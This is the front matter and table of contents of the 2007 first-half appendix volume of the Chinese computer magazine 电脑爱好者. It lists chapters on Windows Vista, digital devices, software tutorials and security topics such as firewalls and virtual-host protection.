# 电脑爱好者2007合订本（上）附录分册
电脑爱好者杂志社

# 内容提要
《电脑爱好者合订本》2007年上半年附录分册与正文分册相配套，作为合订本正文分册的补充和完善。2007年上半年的《电脑爱好者合订本》附录分册主要分成四个部分。第一部分是“VISTA完全手册”，使用巨大的篇幅，从硬件、安装、设置、调整、安全、应用、软件、优化/减肥、启动等诸多方面全面地介绍这个最新的操作系统，让大家轻松上手、熟练应用，此超级教程完全可以媲美一本VISTA大书，有过之而无不及。“数码大玩家”是这次合订本组织的超大系列的数码应用专题集，包括数码摄像、摄影、数字家庭、数码音乐、移动影音、移动通讯、车载电子、移动办公、智能手机等多方面的数码应用知识，多达近百页，是数码知识的盛宴。“超级软件教程”是诸多大型软件的简明教程，用简练的文字介绍了丰富的应用知识。“超级应用方案特辑”，则以方案的形式，介绍了2007年一些热门的软件与网络技术应用知识。

总之，2007年上半年的《电脑爱好者合订本》附录分册，内容丰富，信息含量巨大，是一本实用的电脑技术手册。

本书配套A、B共2张光盘。

配套光盘B粘贴在附录分册内页中。配套光盘B中，“精英软件”栏目收录了近20款5星级软件，均可免费使用。而“爱好者网精选多媒体教程”是CFAN编辑们自己制作的多媒体教程，涉及编辑们自用的近60个绝妙电脑技巧。“电子图书”栏目则收录有《电脑爱好者》杂志社出版的4本图书的PDF电子版，他们是：《2005互动软件增刊——密技大补帖》、《2005电脑爱好者典藏版》、《局域网方案与故障速查手册》、《由0晋身200%防黑高手》。而“迷你游戏”与“精彩素材”两个小栏目则提供给感兴趣的读者。

## 《电脑爱好者合订本》2007年（上） · 附录分册
主管单位：中国科学院
主办单位：北京《电脑爱好者》杂志社
编辑出版：《电脑爱好者》杂志编辑部

顾问：郭传杰
社长：陈梅
总编辑：高翔
总编室：田世峰(主任)
出版部：聂静(主任)
主编：封立鹏
副主编：潘留军
责任编辑：董宏
制作：萧格
发行部：刘丽华(总经理) 顾建林(副总经理)
客户服务部：姚雯(总监) 李隆(副总监) 米彬(副总监)
法律顾问：北京周涛律师事务所 (E-mail:lawyer@cfan.com.cn)

办公/通信地址：北京市海淀区万寿路翠微中里16号3号楼4层，北京123信箱（《电脑爱好者》合订本）
发行：北京《电脑爱好者》杂志社发行部
邮购咨询：(010)68258784，E-mail: yougou@cfan.com.cn
网址：http://www.cfan.com.cn
经销：各地报刊亭及新华书店

开本：787×1092 1/16
印张：24.5
字数：50万字
刊号：ISSN 1005-0043/CN11-3248/TP
国内邮发代号：82-528

本书如有印刷或装订质量问题，我们负责调换。E-mail: publish@cfan.com.cn
图文版权所有，未经同意不得转载、翻印
全套合订本（正文分册、附录分册、配套2CD）定价：39.8元

# 目录 CONTENTS
## 电脑爱好者2007（上半年）合订本
# Vista 完全攻略
# 迎接 Windows Vista 时代——PC 配置与内存扩容指引
- 一、迎接 Vista 时代：CPU、内存和显卡是关键
- 1. CPU：投入双核心怀抱
- 2. 内存：薄弱环节不可忽视
- 3. 显卡：支持 DirectX 9 API 即可
- 二、平台分析：Intel Vs AMD
- 1. AMD 打出性价比之牌
- 2. 芯片组平台全面火拼
- 3. 集成显卡出奇制胜
- 三、Vista 时代的品牌机选购：轻认证重配置
- 1. 配置比认证更重要
- 2. Vista 宽屏潮流：别被 HDCP 忽悠了
- 四、为 Vista 做好准备：内存扩容总动员
- 1. 2 根内存插槽的主板
- 2. 3 根内存插槽的主板
- 3. 4 根内存插槽的主板
# Windows Vista 安装攻略
- 一、你玩得起 Vista 吗？
- 二、兵马未动，粮草先行
- 三、安装也走不同路
- 四、虚拟机安全体验
- 五、看一看设备管理器
- 六、一刀两断删 Vista
- 七、巧妙实现“全新安装”
- 八、手工制作 CD 介质的安装光盘
### 全面剖析 Windows XP、Windows Vista 的双启动
- 一、安装实现双启动
- 1. 光盘引导
- 2. Windows XP 下安装
- 3. 虚拟光驱安装
- 二、在 Windows Vista 系统下设置默认操作系统
- 1. 图形化解决方案
- 2. 命令行解决方案
- 三、在 XP 下设置默认操作系统
- 1. VistaBootPRO
- 2. EasyBCD
- 四、修复引导管理器
- 1. 命令行下修复双启动菜单
- 2. 第三方软件修复引导管理器
- 五、删除多余的引导项目
- 1. VistaBootPRO
- 2. EasyBCD
### Windows Vista 应用攻略
- 一、实用有趣的小工具：Windows 边栏
- 二、了解电脑性能：硬件评分工具
- 三、简单、免费的“截图工具”
- 四、自带刻录功能更方便、更强大
- 五、让电脑学会说话：讲述人
- 六、视力不佳没关系：放大镜
- 七、演讲防打扰功能：演示设置
- 八、Tablet PC 专辑：日记本、粘滞便笺和输入面板
- 九、让孩子健康用电脑：家长控制
- 十、查看、管理和修饰照片的利器：Windows 照片库
- 十一、让 Ghost 下岗：备份和还原
- 十二、设置新电脑：Windows 轻松传送
- 十三、更加安全、好用的网页浏览器：IE 7
- 十四、安排事件有条不紊：Windows 日历
- 十六、增强的邮件软件：Windows Mail
- 十七、新款通讯簿工具：Windows 联系人
- 十八、Windows 会议室
- 十九、最新的媒体播放器：Windows Media Player 11
- 二十、制作电影：Windows DVD Maker
- 二十一、媒体中心：Windows Media Center
# Vista 软件攻略
- 一、驱动问题
- 二、程序不兼容问题
- 三、与 Vista 兼容的软件
# Windows Vista 的设置、调整全程攻略
- 一、设置攻略
- 1. 添加更多的桌面图标
- 2. 激活 Windows 边栏
- 3. 家长控制
- 4. 添加语言包
- 5. 更新设置
- 6. 防火墙设置
- 7. 选择正确的网络位置
- 8. 设置 Windows Defender
- 9. IE 中的安全设置
- 10. 动态桌面设置
- 二、调整攻略
- 1. 让 IE 图标重现桌面
- 2. 自行提升管理员
- 3. 快速获取完全控制权限
- 4. 启动时不再连接受限
- 5. 在命令提示符环境下创建分区
- 6. 手工打造 OEM 信息
- 7. 让关机按钮回归本原
- 8. 为常规对话框添加新对象
- 9. 自动登录
- 10. 制作 Windows PE 2.0 启动光盘
- 11. 正常查看 HLP 帮助文件
- 12. WMP 运行时自动进入“正在播放”
- 三、用第三方软件代劳
- 1. TweakVI
- 2. Vista 优化大师
- 3. Vista Manager
### Windows Vista 的减肥、优化全程攻略
- 一、减肥攻略
- 1. 禁用休眠功能
- 2. 转移分页文件
- 3. 手工指定还原设置
- 4. 转移“我的文档”
- 5. 选择精简版本
- 6. 手工减肥
- 二、优化攻略
- 1. 用数字键启动程序
- 2. 为小内存机器提速
- 3. 让安全盾不再烦人
- 4. 移除 IE 7 中的搜索框
- 5. 在桌面上新建程序兼容性向导
- 6. 去除快捷方式上的小箭头
- 7. 在命令行下自动完成
- 8. 激活隐藏的菜单栏
- 9. 任意定义性能得分
- 10. 集成显卡也能启用 Aero
- 三、第三方优化软件
- 1. TweakVI
- 2. Vista 优化大师
- 3. Vista Manager
# Windows Vista 安全攻略
- 一、Windows安全中心
- 二、Windows防火墙
- 三、自动更新
- 四、病毒防护
- 五、Windows Defender
- 六、Internet安全设置
- 七、用户账户控制
- 八、家长控制
# 数码大玩家
# 数字家庭大玩家
- 一、数字家庭的基础：网络组建
- 1. 布线规划最重要：设计网络结构
- 2. 如何铺设才美观：布线位置与接口
- 3. 相辅相成：与无线网络结合使用
- 4. 多声道音箱与USB延长：装修时最容易忽视的细节
- 二、架起PC与AV的桥梁：享受网络家庭影院
- 1. 硬件实现方式：展开想象的天空
- 2. 软件应用指南：网络家庭影院锦上添花
- 三、数字家庭小点缀：百万像素摄像头
- 1. 百万像素：改变你对摄像头的传统观念
- 2. 接口方式：流畅度的秘密
- 3. 让你在镜头前更靓一点：摄像头设置技巧
- 四、灌录个人原声大碟
- 1. 提取MTV与CD中的音频信息
- 2. 提取背景音乐并去除原唱
- 3. 音频修饰与混合音轨
- 五、视频编辑并不难：简易DV视频后期处理方案
- 1. DV后期处理软件的选择
- 2. Movie Maker的视频采集与编辑
- 3. 高画质视频转换与保存
### 动静两相宜 融合得人心 ——深入混合型 DC 与 DV 数码影像设备
- 一、技术分析：DC 与 DV 的差别
- 二、稳步发展：DC动态拍摄效果
- 三、率先达标：DV静态拍摄效果
- 四、寻找数码影像多面手
- 五、DC摄像：三分像DV，七分靠自己
# 移动影音大玩家
- 一、精彩移动世界：浅析移动影音应用潮流
- 二、从笨重到轻盈：移动影音方案新概念
- 三、感受视觉震撼：UMPC微型笔记本与移动DVD
- 四、全能型个人数字助理：高性能PDA
- 五、口袋中的电影：多媒体智能手机
- 六、MP4移动视频时代
# 移动通讯大玩家
第一篇 语音、短信功能你用好了吗？
- 一、手机呼叫转移的设置与应用
- 二、手机呼叫等待与多方通话
- 三、PTT：把手机变对讲机
- 四、彩信、语音短信应用
- 五、手机省钱秘笈
第二篇 无线上网功能你玩转了吗？
- 一、手机支持上网方式简介
- 二、CMNET和CMWAP接入的区别
- 三、玩转手机终端上网
- 四、电脑连接手机上网
- 五、移动传真解决方案
### 数码单反相机选购及应用详解
（全文在本套合订本的正文分册的后面部分，欢迎读者阅读）
# 巧买善用数码设备 营造完美“数字化”旅行
数码相机/摄像机篇
- 一、旅行用数码相机选购
- 二、数码相机旅途摄影技巧
- 三、数码摄像机选购与使用简谈
笔记本电脑篇
- 一、小型笔记本选购
- 二、UMPC的选购及应用
- 三、其他相关配件选购和应用
- 四、本本和数码相机的配合
其他数码设备篇
- 一、手机
- 二、掌上电脑
- 三、MP3/MP4播放器
- 四、GPS手持接收器
- 五、其他数码装备
网络应用篇
- 一、笔记本电脑在旅途中如何上网
- 二、远程语音及视讯交流
- 三、分享旅途快乐
- 四、定购电子机票
- 五、网络电子地图应用
# 移动办公大玩家
- 一、移动办公运筹帷幄：智能手机掌控一切
- 二、走到哪里都上网：最平实移动办公解决方案
- 三、室内无线上网：最惬意的无线办公
- 四、轻轻松松户外炒股
# 车载电子大玩家
- 一、车载影音系统
- 1. 原车音响系统改造
- 2. 车载DVD系统
- 3. 车载收音头
- 二、车载通讯系统
- 1. 手持对讲机
- 2. 车载（短波）通讯台
- 3. 手机车载配件
- 4. 卫星通讯设备
- 三、车载GPS导航系统
- 1. DIY车载GPS导航设备
- 2. 车载GPS导航（防盗）设备
- 四、其他车载电器
- 1. 车载电源转化设备
- 2. 车载厨房电器
- 3. 专用车载电脑（智能终端）
# 超级软件教程
# Office 2007 入门与实用案例介绍
- 一、Office 2007 的系统需求
- 二、熟悉界面需要时间
- 1. 开始按钮
- 2. 格式栏
- 3. 上下文标签
- 4. 缩略图效果
- 5. 实时预览
- 6. 新旧兼容
- 7. 清除隐私
- 8. 快速返回
- 9. 快速转换
- 10.图片库
- 11.SmartArt
- 三、Office 2007 主力组件的新特性——Word 2007
- 1. 页面、字数一目了然
- 2. 调用稿纸
- 3. 创建书法字帖
- 4. 快速翻译英文
- 5. 发布博客日志
- 6. 正版验证
- 四、Office 2007 主力组件的新特性——Excel 2007
- 1. 即时提示
- 2. 简繁互换
- 3. 删除重复项
- 4. 自动换行
- 5. 条件格式
- 6. 标记较窄的列
- 五、Office 2007 主力组件的新特性——PowerPoint 2007
- 1. 创建相册
- 2. 人人都可成为艺术字专家
- 3. 切换效果
### Office 2007 主力组件的新特性——Office Outlook 2007
- 1. 高度整合
- 2. 类别标色
- 3. 预览附件
- 4. 发送日历
- 5. RSS 订阅
### 典型案例
### 解决难题的方法
- 1. Office 2003 也支持 “x”
- 2. 找回 PDF/XPS 输出功能
- 3. 插入 “页码” 不犯愁
- 4. 找回 “修订” 功能
- 5. Vista 下预览 Office 文档
- 6. 实现自动安装
# 全新登场：Photoshop CS3 简明教程
## 一、新体验：Photoshop CS3 的新变化
- 1. 全新的用户界面和工作面板
- 2. 增强的范围选择功能
- 3. 更体贴的曲线调整对话框
- 4. 黑白照片转换控制
- 5. 更有特色的克隆面板
- 6. 图层的自动对齐与自动混合
- 7. 灵活方便的智能滤镜
- 8. 功能强大的 Adobe Bridge 浏览器
#### 二、快速上手篇：Photoshop 基础知识及常用工具
- 1. 图像处理基础知识
- 2. 焕然一新：体验 Photoshop CS3 界面
- 3. Photoshop CS3 的常用工具
- 4. Photoshop CS3 的文件格式
# 三、循序渐进篇：Photoshop CS3 的常用操作
- 1. Photoshop CS3 图像颜色和模式调整
- 2. Photoshop CS3 的图层操作
- 3. Photoshop CS3 的选区编辑
- 4. Photoshop CS3 的路径操作
- 5. Photoshop CS3 的通道与蒙版
- 6. 智能滤镜：开创全新工作方式
#### 四、综合提高篇：Photoshop CS3 书籍设计实例
- 1. 书籍封面制作
- 2. 书籍展示界面设计
# 让你成为周杰伦——Adobe Audition 完全使用指南
#### 一、Adobe Audition 2.0简介
- 1. Adobe Audition2.0 基本安装及使用
- 2. Adobe Audition2.0 基础知识
## 二、获取伴奏音乐
- 1. 网上获取伴奏音乐
- 2. VCD 提取伴奏音乐
- 3. 歌曲提取伴奏音乐
## 三、录音基本方法
- 1. 录音前期调试
- 2. 录制歌曲
## 四、追求完美——后期处理制作
- 1. Adobe Audition2.0 的后期处理功能
- 2. 后期处理效果插件
### 独辟蹊径：Java 语言入门教程
## 一、Java 初接触：从一个电子地图谈起
- 1. 丰富的网络应用和强大的编程功能
- 2. 轻松实现 Java 环境配置
- 3. 一个简单的 Java 程序
## 二、超级助手：利用 JCreator 学习 Java
- 1. JCreator 4.0 的下载和安装
- 2. 联袂演出：通过 JCreator 使用 Java 帮助文件
- 3. “活教材”：巧妙使用 JDK 文档
- 4. 通过搜索引擎和专业论坛解决难题
## 三、活学妙用：迈出实战 Java 第一步
- 1. 小试牛刀：查看 Java 常见数据类型范围
- 2. 举一反三：定义 Java 变量的方法
- 3. 基本规则：Java 运算符与表达式案例
- 4. 基本功：Java 控制结构案例
- 5. 按图索骥：轻松利用 JCreator 找错误
## 四、触“类”旁通：从 Java 类库到 Java 小工具
- 1. 了解 Java 类库的“庐山真面目”
- 2. 举一反三：了解 java.lang 包的常用类
- 3. 实用工具：利用 Java 制作网络“身份证”
- 4. 交互工具：让网络应用更强大的 Java Applet
## 五、体验 Java：一个密码输入框的设计
### 超酷超炫——电子杂志制作完全教程
## 入门工具篇：功能强大的电子杂志制作软件
- 一、ZineMaker 2006
- 二、PocoMaker 0.99
- 三、ZCOM 杂志制作大师 V1.2
- 四、iebook 超级精灵
- 五、其他电子杂志制作软件
## 进阶工具篇：实用工具和专业工具的完美配合
- 一、实用的电子杂志 “零部件” 制作工具
- 二、Photoshop 技术在电子杂志设计中的应用
- 三、Flash 技术在电子杂志设计中的应用
- 四、专业电子杂志制作技术的整合
## 实战提高篇：《北印码头》系列电子杂志的编创制作
- 一、前期策划和整体策划：电子杂志的准备工作
- 二、电子杂志整体元素的设计
- 三、目录的制作
- 四、内容模板和 Flash 文件
- 五、后期合成及发布
### 固若金汤：流行个人防火墙软件完全教程
## 国内篇
### 一、瑞星个人防火墙 2007 年版
- 1. 软件界面介绍
- 2. 状态监控功能
- 3. 系统设置与规则定制
- 4. 安装包制作、密码保护和系统漏洞扫描功能
### 二、天网防火墙个人版 V3.0.0.1007
- 1. 软件界面及安装
- 2. 实时监控和智能入侵检测
- 3. 自定义安全级别和安全规则
- 4. 进程保护和密码保护功能
- 5. 报警和日志记录
### 三、其他国内个人防火墙
- 1. 金山网镖个人防火墙 2007
- 2. 费尔个人防火墙专业版 V3.0
## 国外篇
### 一、Norton Internet Security 2007 个人防火墙
- 1. 安全防护和监控功能
- 2. 系统设置和规则设置
- 3. 集成的病毒防范、入侵防护和漏洞检测功能
### 二、ZoneAlarm 7.0.334.000
- 1. 规则设置
- 2. 特色安全保护功能
### 三、卡巴斯基个人防火墙 6.0.0.307
- 1. 自定义规则
- 2. 监控和安全日志功能
### 四、其他优秀的国外个人防火墙
- 1. BlackICE PC Protection V3.6.cqc
- 2. Agnitum Outpost Firewall Pro V4.0
- 3. McAfee Personal Firewall V7.1
- 4. Kerio Personal Firewall V4.3.268
- 5. Sygate Personal Firewall Pro V5.6.2828
### 五、防火墙使用中的常见问题
- 1. 如何识别非法的进程
- 2. 如何关闭 139 端口
- 3. 联机玩游戏时是否有必要关闭天网防火墙？
- 4. 为什么总有 Internet 网站探测到本机地址
- 5. 如何知道防火墙的进程保护已经发挥作用了
### 步步为营：虚拟主机安全防护完全教程
#### 一、案例：一个 “注入” 引发的虚拟主机安全
- 1. 锁定目标：通过检测寻找漏洞
- 2. SQL 注入：虚拟主机的安全隐患
- 3. 针对注入攻击的安全配置
## 二、追根溯源：常用虚拟主机的安全防护及配置
- 1. ASP 虚拟主机的安全配置与防护
- 2. PHP 虚拟主机的安全配置与防护
- 3. JSP 虚拟主机的安全配置与防护
## 三、联袂出击：严格网络编程确保虚拟主机安全
- 1. 网络编程中的典型漏洞
- 2. 案例一：ASP 虚拟主机中的代码分析
- 3. 案例二：PHP 代码过滤不严的漏洞# 212 “Flash 杀手”——微软交互式动画创作工具 Expression Blend 简明教程

### 一、简介

### 二、安装要求

1. 推荐的硬件配置
2. 系统要求

### 三、熟悉用户界面

1. 工具箱
2. 工程面板
3. 属性面板
4. 资源面板
5. 交互面板
6. 调整工作区

### 四、快速上手

### 五、管理工程

1. 创建工程
2. 创建文档
3. 打开工程
4. 快速浏览工程文件夹
5. 在工程中创建一个新文件夹
6. 关闭文档或工程
7. 删除一个文档、项目或工程
8. 复制/粘贴一个文档或项目
9. 剪切一个文档或项目
10. 向工程中添加链接或删除一个项目
11. 添加/删除一个引用
12. 向文档中插入一个项目
13. 改变活动文档
14. 重命名工程文件
15. 测试工程
16. 测试活动文档
17. 建立工程
18. 资源管理

### 六、绘图

1. 绘制图形
2. 绘制曲线
3. 绘制自由路径
4. 将形状转换为路径
5. 将矩形变成圆角矩形
6. 删除路径片段
7. 在路径上添加/删除节点
8. 改变曲线的形状
9. 组合形状或路径
10. 创建或释放一个混合路径
11. 创建或释放一个剪切路径

### 七、对象操作

1. 添加/修改对象
2. 重命名对象
3. 选择/取消选择对象
4. 移动对象
5. 复制、剪切、粘贴、删除对象
6. 排列对象
7. 组合/取消组合对象
8. 改变对象的堆叠顺序

### 八、外观

1. 创建画笔或颜色资源
2. 应用画笔到对象
3. 改变对象的笔划属性
4. 向对象复制或应用属性
5. 添加/删除过渡色停靠点
6. 显示/隐藏对象
7. 改变对象的透明度
8. 向对象添加位图效果

### 九、文本

1. 添加文本
2. 格式化文本
3. 编辑文本
4. 创建超链接
5. 添加对象到文本流
6. 将文本转换为路径

### 十、多媒体

1. 向工程添加声音、图像或视频
2. 向活动文档中插入一个声音或视频文件
3. 删除多媒体文件

### 十一、对象变换

1. 旋转对象
2. 调整大小和缩放对象
3. 扭曲对象
4. 翻转对象
5. 偏移对象位置
6. 改变对象的中心点

### 十二、3D对象

1. 导入3D内容
2. 将二维图像转换为三维图像
3. 应用材质
4. 创建图像或绘图笔刷作为材质
5. 移动对象
6. 移动摄像机
7. 改变灯光类型
8. 改变灯光颜色

### 十三、布局

### 十四、控件

### 十五、数据

### 十六、动画制作

1. 认识时间线编辑器
2. 添加/删除时间线
3. 操作关键帧
4. 创建一个简单动画
5. 创建一个沿路径移动的动画

### 十七、发布应用程序

# 224 理财“专家”：个人与家庭理财软件完全教程

## 一、个人与家庭理财软件基本情况

1. 个人与家庭理财软件的评价标准分析
2. 个人与家庭理财软件大阅兵

## 二、免费版个人与家庭理财软件

1. 家财通普及版V2.30 sp1
2. 实创个人理财系统V1.50
3. 理财好轻松V1.05
4. 天天理财V1.0
5. 家庭理财王V2.47

## 三、共享版个人与家庭理财软件

1. 财易家庭理财2007 V2.01
2. 财智家庭理财V5.40
3. AceMoney V3.9.3
4. 冀南家庭理财V3.30
5. 新锐家庭理财V1.2

## 四、小结

# 232 精准快：专业搜索工具使用教程

## 一、近在咫尺：本地文件专业搜索工具

1. Google desktop search V5.0
2. 百度本地硬盘搜索 V2.7
3. 其他本地搜索软件

## 二、精确定位：专业地图搜索工具Mapbar

1. 地图浏览和搜索服务
2. 公交换乘和驾驶路线
3. 地图应用服务

## 三、赏心悦目：专业音乐和视频搜索工具

1. 天籁之音：专业音乐搜索工具
2. 尽收眼底：专业视频搜索工具

## 四、学海无涯：专业学习类搜索工具

1. 专业文件资源搜索
2. 专业词典搜索
3. 书籍类专业搜索
4. 知识类专业搜索

## 五、把握商机：专业商务搜索工具

1. 专业供求信息搜索
2. 专业黄页搜索引擎
3. 专业求职招聘搜索

# 239 搜索专家成长之路

## 一、搜索引擎使用入门

（一）初识搜索引擎
（二）搜索引擎的基本用法
（三）快速高效搜索的注意事项
（四）避免低级搜索错误

## 二、常用资料搜索技巧

（一）巧搜指定类型文件
（二）限定站点搜资料
（三）随心所欲筛选搜索
（四）巧用快照搜索
（五）新闻快速搜索
（六）图片巧搜罗
（七）FTP资源巧搜索
（八）搜索引擎大搜罗

## 三、行业专用搜索

（一）巧搜学术论文
（二）单位换算也搜索
（三）智能计算器
（四）翻译释义不求人
（五）在线大字典
（六）疑难问题找搜索
（七）英语资料强力搜

## 四、影音娱乐搜索

（一）歌曲大搜索
（二）BT巧搜索
（三）巧搜Flash

## 五、生活便利搜索

（一）网络黄页
（二）地图尽搜罗
（三）天气早知道
（四）餐饮大搜索
（五）生活信息大搜索
（六）巧搜电视节目

# 249 轻松进阶：图片简易处理实用教程

## 一、基础篇：简易抓图和编辑处理

1. 快速制作浏览缩略图
2. 快速截取并制作个性化图片
3. 对图片进行简易特效处理
4. 图片格式转换、尺寸转换和压缩处理
5. 简易LOGO制作和设计
6. 制作个性化公章

## 二、应用篇：论坛和博客图片攻略

1. 文件地址和引用
2. 论坛和博客中的头像设置
3. 论坛和博客签名的设置
4. 使用UBB代码发布图片
5. 在论坛和博客上传图片、添加Flash文件

## 三、应用篇：QQ、MSN图片攻略

1. 联袂出击：巧用QQ与ACDSee获取图片
2. 简单处理：让影片变为QQ动画表情
3. 巧用简易动画软件制作QQ表情
4. 让MSN和QQ共享表情图片

## 四、典型案例篇：通过网站处理图片

# 超级应用方案特辑·软件

# 258 一切都均有可能——奇妙软件面面观

## 一、成长的足迹

## 二、我设计，我喜欢

## 三、出行帮你忙

## 四、语言文字的魅力

## 五、多媒体制作

## 六、信息安全最重要

## 七、生活一点通

## 八、计算机维护

## 九、省时省力走捷径

## 十、零敲碎打

# 269 玩转“虚拟内存”加速——让系统“飞”起来！！！

## 一、虚拟内存——物理内存的“预备役部队”

## 二、造成内存不足的原因

## 三、追根溯源——找到Windows XP的虚拟内存

## 四、虚拟内存——何时才能征服你？

# 273 抢先试用ACDSee V9.0

## 一、ACDSee 9.0简易安装

## 二、ACDSee 9.0使用及新功能体验

1. 新功能之一：“快速查看”模式——速度才是王道
2. 新功能之二：“阴影/高光”工具——让照片重获新生
3. 新功能之三：“隐私文件夹”——隐私保护专家
4. 新功能之四：“日历事件”视图——整理生活好帮手
5. 新功能之五：“自动类别”——真正的“方便易分类，快捷易搜索”
6. 新功能之六：“陈列室”——个人的展览馆
7. 新功能之七：“组合方式”——高效的逻辑显示法
8. 新功能之八：“过滤方式”——专家标准，分级查看

# 275 登陆全自动 安全又省心

# 276 搜索下载播放的全能战士——mTunes PC版使用教程

## 一、mTunes的安装与设置

1. mTunes的安装
2. mTunes安装后的设置

## 二、mTunes特色功能使用实例

1. 下载歌曲
2. 传输到USB设备

## 三、mTunes的其他功能使用

1. 音频、视频播放和管理
2. 播放列表管理
3. 全方位的音乐排行榜
4. 本地文件搜索
5. 搜索风云榜
6. 将CD转换为MP3
7. 下载铃声和设置彩铃

# 279 “面子工程”：精美名片制作技术完全攻略

## 基础篇：名片知识和入门软件

### 一、名片的构成要素、图案和基本设计原则

### 二、名片DIY：实用小巧的制作软件

## 提高篇：利用专业图像软件设计名片

### 案例1：使用CorelDRAW12制作名片

### 案例2：用Publisher快速制作名片

## 名片用纸常识及选购技巧

# 284 高分屏笔记本/液晶显示器字体太小怎么办？

## 方法一：更改字体

### 方法二：更改DPI

## 方法三：使用其他网页浏览器

# 286 让阅读更简单——实用翻译软件解决方案

## 一、大块头大智慧：功能强大的专业翻译软件

（一）珠联璧合：金山词霸2007与金山快译2007
（二）铭泰三剑客：东方大典、东方快车和雅信CAT3.5
（三）瞄准海外：功能卓越的Dr.eye 译典通

## 二、草根英雄：精彩纷呈的各类翻译软件

（一）全文翻译类
（二）实用词典类
（三）专用软件服务类

## 三、在线翻译：给互联网打开一扇窗户

# 295 更上一层楼：利用软件学英语完全指南

## 一、综合能力提高篇

1. 出自名门：Dr.eye 译典通 V7.0
2. 英语八哥 V7.1
3. 慈心影文学习机 V12.2
4. 英语全能通 V0.83
5. 名师在线——边缘英语学习 V5.0
6. 英语全程导师 V7.8

## 二、听力口语提高篇

1. 学英语——单词与口语 V2007 特别版
2. Englishfield V3.4
3. 英语小精灵 V6.0

## 三、单词句型提高篇

1. 疯狂单词 V3.08
2. 向明单词通 V2007
3. Ab英语单词通
4. 潜移默化学英语 V5.5
5. 英华金典单词通 V03.05
6. 句神英语 V4.56
7. 黄河英语通 V2.26

# 303 “出卷子” 原来就是这么简单——Word试卷模板指南！！！

## 一、制卷过程明白看

1. 页面的基本设置
2. 不可忽视的密封线
3. 注明页数和页码
4. 记分得分不可漏
5. 快捷明了的答案填写表
6. 保存模板最重要

## 二、教您几手制卷秘诀小技巧

1. 隐藏试卷答案
2. 选择题选项的对齐
3. 强大的数学公式编辑器Mathtype

# CONTENTS

# 305 不学有术，菜鸟也能制作专业的 Flash 作品

## 一、轻松点击，成就绚酷字特效

## 二、家族兄弟，联手打造花样世界

## 三、个性十足，编制无限典藏回忆

## 四、事半功倍，办公也要很闪亮

## 五、乾坤挪移，音、视频转换为 Flash

## 六、双刃利剑，把持需有度

# 312 原来生活可以更美的——光雕刻录原来就是这么简单!!!

## 一、光雕概念大揭秘

## 二、光雕的运作条件

## 三、精打细算，还是光雕最合算

## 四、光雕盘标制作秘笈

# 315 完美消除数码相片噪点—— Neat Image

1. 输入图像
2. 设备噪点配置
3. 噪点过滤设置
4. 输出图像

# 317 桌面小秘书——经典桌面提醒工具排队看

## 一、风格独具—— Active Desktop Calendar 6.5 汉化版

## 二、短小精悍—— Exstora 1.0 汉化版

## 三、优佳助手—— DeskTask 1.0 为你的 Outlook 安装第三只眼睛

## 四、时尚先锋—— Rainlendar pro 2.02

## 五、全能战士—— 鱼鱼桌面秀

# 321 万能播放器：最新暴风影音实用技巧大搜捕

## 一、加载字幕

## 二、看完电影，想关就关

## 三、视频截图，轻松写意

## 四、双语电影和影片声音太小问题

## 五、RM/RMVB 文件播放不正常

## 六、MP4 无法播放的问题

## 七、声音和画面不同步

## 八、字幕与电影不同步问题

## 九、让暴风影音也能随意调节亮度

## 十、看电影也能“断点续传”

## 十一、锁定播放画面比例

## 十二、在暴风影音中实现 5.1 音效

## 十三、让 Real 软件不再与暴风影音“打架”

## 十四、快捷键，想用就用

## 十五、看电视剧的完美方案

## 十六、使用暴风影音收看在线视频

## 十七、在暴风影音中玩双字幕

## 十八、看电影也玩老板键，暴风影音 2 的另类暂停键

## 十九、清除播放记录

## 二十、备份暴风影音的设置

# 327 掌上信息安全——笔记本安全技术解决方案

## 一、身份安全：第一道有效屏障

## 二、数据安全

## 三、来自移动 CPU 的硬件加密

## 四、“可信计算”时代：笔记本厂商牵手安全芯片

## 五、软件恢复技术

## 六、谨防看不见的黑手：安全使用网络银行

# 333 防偷防盗防小人——为家用无线网络加密

1. 为无线网络加密
2. 关闭 SSID 广播
3. 设置 MAC 地址过滤
4. 关闭 DHCP 服务器
5. 为无线路由器更改用户和密码
6. 升级 Firmware (韧体更新)

# 超级应用方案特辑·网络

# 336 超值享受：Gmail 使用完全攻略

## 一、Gmail 实用工具篇

1. 能够互动聊天的 Google Talk
2. 体贴入微的 Gmail Notifier
3. 服务周到的 Google 笔记本
4. 个性化的 Gmail 图标生成器
5. 像本地硬盘一样的 Gmail Drive shell extension
6. 在线创建和共享新版 Office 文件

## 二、Gmail 实用技巧篇

1. “越俎代庖”：使用 Gmail 邮箱收取其他邮箱的邮件
2. 分身有术：Gmail 邮箱加号和点号的妙用
3. 火眼金睛：自动清理垃圾邮件
4. 井井有条：利用 Google 日历进行日程管理
5. 得心应手：方便独特的邮箱快捷键

# 341 将 IE 浏览器彻底抛弃——两款第三方浏览器上手指南

## 第一篇 Firefox 火狐使用教程

### 一、灵魂初探

### 二、引狐入室

### 三、火狐初生

### 四、九尾火狐

## 第二篇 傲游 Maxthon 上手指南

### 一、傲游的下载安装

### 二、傲游特色功能上手指南

### 三、让傲游如鱼得水——傲游插件简要介绍

# 348 WEB 聊天一把抓

1. WebQQ
2. MSN Web Messenger
3. Google Talk
4. ICQ2Go
5. 雅虎通网页版

# 350 寻找失去的童趣—— 网络玩拼图

## 一、上传图片——选择你所喜欢的图片

## 二、制作拼图——游戏准备好了吗?

## 三、在线拼图——真正体验童趣

# 351 “软件 + 网络”：成功求职完全攻略

## 一、“面子”工程：简历软件助你展示完美自我

## 二、大海捞针：职位搜索软件助你一臂之力

## 三、如虎添翼：巧用网络助你求职成功

# 355 给 BT 下禁令—— P2P 终结者

1. 软件的安装和注册
2. 软件的配置和使用
3. 其他网络控制功能

# 358 寻找新版网络下载加速软件的“王者”

## 一、追根溯源：下载技术基础知识

## 二、安装和界面：寻找最有面子的“王者”

## 三、下载速度：寻找最快的“王者”

## 四、资源占用：寻找最稳定的“王者”

## 五、特色功能和资源：寻找最方便的“王者”

# 363 终极 PK：让网络音乐下载更疯狂

## 一、老牌劲旅：大气实用的 KuGoo 软件

## 二、后起新秀：P8 数字娱乐平台

## 三、方便简洁的“酷我音乐盒”

## 四、多媒体宝库“百宝”

## 五、功能强大的其他网络音乐下载软件

## 六、终极实力 PK：搜索结果和有效下载测试

# 368 “随心所欲” 驾驭网络视频—— 网络视频观看、录制两不误

## 一、P2P 我做主—— P2P 点播软件 PPstream

## 二、专业的才是最好的，P2P TV Recorder 1.72 —— P2P 网络视频录制

## 三、活用你的 PPLive —— KMPlayer、PPLive 双剑合璧录制节目

